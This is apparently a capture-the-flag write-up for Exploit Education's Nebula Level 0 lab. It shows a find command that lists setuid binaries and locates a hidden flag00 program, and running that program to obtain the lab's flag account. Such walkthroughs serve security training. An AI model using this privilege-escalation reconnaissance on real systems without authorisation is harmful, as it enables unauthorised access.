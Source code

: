 Exploit Education Level 0

### Challenge
    This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

    Alternatively, look at the find man page.  

    To access this level, log in as `level00` with the password of `level00`.

### Solution
    We have to use find to find a file with setuser id bit set
    
    
        ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less ```
        
    lets see what the parameters indicate
        
        ```/               it asks find to look for files in root directory
        -perm -4000     its is used to display all files with the setuserid set
        2>/dev/null     gets rid of all error messages```
        
        
        ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less
        /bin/.../flag00
        /bin/fusermount
        /bin/mount
        /bin/pis
        /bin/ping6
        /bin/su
        /bin/umount
        /sbin/mount.ecryptfs_private
        /usr/bin/at
        /usr/bin/chfn
        /usr/bin/chsh
        /usr/bin/gpasswd```
        
    we can see a file named `flag00`. lets investigate 
        ```level00@nebula:/$ cd /bin/.../
        level00@nebula:/bin/...$ ls -la
        total 8
        drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
        drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
        -rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00```
    
    we can see that the `setuserid` bit is set for `flag00`. lets run it
        ```level00@nebula:/bin/...$ ./flag00
        Congrats, now run getflag to get your flag!
        flag00@nebula:/bin/...$ getflag
        You have successfully executed getflag on a target account```
        
    ####Solved